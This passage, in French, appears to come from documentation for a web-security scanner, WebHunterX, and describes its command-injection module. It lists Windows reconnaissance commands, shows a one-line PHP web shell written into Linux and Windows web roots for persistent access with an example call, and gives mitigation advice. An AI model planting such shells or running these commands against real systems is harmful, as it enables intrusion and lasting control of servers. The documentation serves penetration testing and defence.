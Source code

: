 ```cmd
# Informations utilisateur
whoami
echo %username%

# Informations système
systeminfo
ver

# Réseau
ipconfig /all
netstat -an

# Fichiers sensibles
type C:\Windows\win.ini
type C:\boot.ini
```

## Upload de shell web

Le module peut tenter d'uploader un shell web pour établir un accès persistant :

```bash
# Unix/Linux
echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/shell.php

# Windows
echo ^<?php system($_GET["cmd"]); ?^> > C:\inetpub\wwwroot\shell.php
```

Ces shells peuvent ensuite être utilisés pour exécuter des commandes arbitraires :

```
https://exemple.com/shell.php?cmd=id
```

## Mitigation et bonnes pratiques

Le rapport inclut des recommandations de correction spécifiques :

1. **Éviter l'exécution de commandes système** : Utiliser des API ou des bibliothèques plutôt que des appels système
2. **Validation stricte des entrées** : Limiter les entrées à des caractères alphanumériques si possible
3. **Liste blanche de commandes** : N'autoriser que des commandes spécifiques et prédéfinies
4. **Isolation des environnements** : Utiliser des conteneurs ou des environnements isolés pour l'exécution
5. **Principe du moindre privilège** : Exécuter les applications web avec des utilisateurs aux privilèges limités

## Intégration avec d'autres modules

Le module Command Injection peut être utilisé avec d'autres modules de WebHunterX :
